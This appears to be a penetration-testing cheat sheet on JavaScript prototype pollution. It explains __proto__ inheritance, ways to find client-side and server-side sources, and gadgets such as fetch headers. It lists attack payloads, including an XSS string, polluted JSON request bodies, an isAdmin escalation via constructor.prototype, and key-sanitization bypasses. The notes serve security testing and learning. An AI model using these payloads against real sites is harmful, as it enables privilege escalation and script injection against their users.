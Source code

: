 ```yaml
---
title: "Prototype pollution"
weight: 20
---
```


<details><summary>Introduction</summary>

```javascript
var my_object = {a:1, b:2}
```

Access the value of "a"

```javascript
console.log(my_object.a)     // Output: 1 
// functionally equivalent to... 
console.log(my_object["a"])  // Output: 1
```

Add a property

<pre class="language-javascript"><code class="lang-javascript"><strong>my_object["c"] = 3
</strong>// or... 
my_object.c = 3
</code></pre>

Every object has a `__proto__` (or prototype) property too which points to that object’s ‘prototype’, allowing it to inherit properties and methods.



If we try to access a property that doesn’t exist on `my_object`, JavaScript will next look to see if it is part of the next Object’s **proto** property

```javascript
empty_object = {} 
Object.prototype.x = 'test' 
console.log(empty_object.x) // test
```



```javascript
// Empty object. 
blank_object = {} 
// Object with a few properties
my_object = {a:1, b:2} 
// Define the 'z' property on the '__proto__' object of 'my_object': 
my_object["__proto__"]["z"] = "test" 

console.log(my_object.z)     // Output: test
console.log(blank_object.z)  // Output: test
console.log(Object.z)        // Output: test

// Note: here we add a 'z' property on the __proto__ object of 'my_object',
// that in this case is "Object".
```



```javascript
s = "test"
s.__proto__                         // String { .... }

// Define the 'z' property on the '__proto__' object of 's': 
s["__proto__"]["z"] = "bar"
console.log(s.z)                    // Output: bar

// Create another string ...
x = "test"
console.log(x.z)                    // Output: bar

// Create an object ...
obj = {}
console.log(obj.z)                    // Output: undefined

// Here we add a 'z' property on the __proto__ object of 's',
// that in this case is "String". So now all object all objects 
// that inherit "String" object have this property.
```

</details>

More info: [https://www.netspi.com/blog/technical-blog/web-application-pentesting/ultimate-guide-to-prototype-pollution/](https://www.netspi.com/blog/technical-blog/web-application-pentesting/ultimate-guide-to-prototype-pollution/)

---

## Prototype pollution sources

The three most common JavaScript patterns that can lead to prototype pollution are merging, cloning, and value setting operations. Anytime an object is dynamically built from user input, there's a risk of prototype pollution.

---

## Client-side prototype pollution (manual)

### Finding sources

**In the URL**

1. Using a common XSS source, such as the URL parameters or hash, set a \_\_proto\_\_ payload, like this:

    ```md
    https://example.com/?__proto__[polluted]=Polluted 
    // or  
    https://example.com/#__proto__[polluted]=Polluted 
    // or  
    https://example.com/?__proto__.polluted=Polluted 
    ```

2. Check `Object.prototype` in your browser console to see if the property was successfully added:

    ```javascript
    Object.prototype.polluted // "Polluted" = successful pollution // undefined = failed attempt
    ```

3. Repeat with different sources

    An important point is that the `[]` and `.` notations are not valid JavaScript in this context; they are defined by the developer. So the pattern you should look for in any source is ‘nesting’

    Ridiculous example

    ```md
    https://example.com?firstParam=__prototype__&secondParam=polluted&thirdParam=Polluted 
    https://example.com?param->__proto__->polluted=Polluted 
    ```

***

**In JSON**

Test any kind of JSON. E.g. a JWT could be parsed client-side for example, without any kind of validation.

```json
{ 
  "alg": "HS256", 
  "typ": "JWT", 
  "kid": "123", 
  "__proto__": { 
      "polluted": "Polluted" 
  } 
} 
```

### Finding gadgets

Being able to affect the global `__proto__` property is not very useful unless you can use it to affect other parts of the code.

> **Tip**: Third-party libraries of prototype pollution gadgets [https://github.com/BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution).

---

## Browser APIs

**Fetch**

```javascript
fetch('https://website.com/change-email', {
    method: 'POST',
    body: 'user=test&email=test%40test.test'
})
```

Basically, here are defined `method` and `body` properties, but there are a number of other possible properties that we've left undefined. So, if you find a source, you can pollute `Object.prototype` with your own `headers` property.

```md
?__proto__[headers][x-username]=<img/src/onerror=alert(1)>
```

More info: [https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis#prototype-pollution-via-fetch](https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis#prototype-pollution-via-fetch)

***

**Object.defineProperty()**

```javascript
Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});
```

Same thing. `defineProperty` accept other "descriptor" a.g. `value`.&#x20;

```javascript
/?__proto__[value]=foo
```

[https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis#prototype-pollution-via-object-defineproperty](https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis#prototype-pollution-via-object-defineproperty)

---

## Client-side prototype pollution (with DOM Invader)

**Finding sources**

[https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution)

**Finding gadgets**

[https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#scanning-for-prototype-pollution-gadgets](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#scanning-for-prototype-pollution-gadgets)

---

## Server-side prototype pollution

Javascript in the backend

<details><summary>Introduction</summary>

An easy trap for developers is overlooking that a JavaScript for...in loop iterates over all of an object's enumerable properties, including inherited ones from the prototype chain.

```javascript
// Example with "object"
const myObject = { a: 1, b: 2 };

// pollute the prototype with an arbitrary property
Object.prototype.foo = 'bar';

// confirm myObject doesn't have its own foo property
myObject.hasOwnProperty('foo'); // false

// list names of properties of myObject
for(const propertyKey in myObject){
    console.log(propertyKey);
}

// Output: a, b, foo
```

```javascript
// Example with "array"
const myArray = ['a','b'];
Object.prototype.foo = 'bar';

for(const arrayKey in myArray){
    console.log(arrayKey);
}

// Output: 0, 1, foo
```

</details>

> **Warning**: It's easy to unintentionally cause a denial-of-service (DoS), making testing in production risky. In addition, once a server-side prototype is polluted, the change persists for the entire lifetime of the Node process, with no way to reset it.

**Detection - (polluted property reflection)**

Attempt to pollute the global `Object.prototype` with an arbitrary property in a `POST` / `PUT` request

```http
POST /user/update HTTP/1.1
Host: vulnerable-website.com
...
{
    "user":"ithomas",
    "firstName":"isaiah",
    "lastName":"thomas",
    "__proto__":{
        "foo":"bar"
    }
}
```

```http
HTTP/1.1 200 OK
...
{
    "username":"ithomas",
    "firstName":"isaiah",
    "lastName":"thomas",
    "foo":"bar"
}
```

**Detection - (without polluted property reflection \[Automatic])**

Server-Side Prototype Pollution Scanner (Burp extension)

Right click on the request -> Extensions -> Server-Side Prototype Pollution Scanner -> Server-Side Prototype Pollution

---

## Bypassing defenses

### Via the constructor

A common defense is to remove any properties with the key `__proto__` from user-controlled objects before merging them.

Use `myObject.constructor.prototype` that is equivalent to `myObject.__proto__`

```md
vulnerable-website.com/?foo.constructor.prototype=bar
```

```json
{
   "constructor":{
      "prototype":{
         "isAdmin":"true"
      }       
   }
}
```

### Bypassing flawed key sanitization

Read the js code to understand the defenses. E.g. bypass the strips of `__proto__`

```md
vulnerable-website.com/?__pro__proto__to__[foo]=bar
```
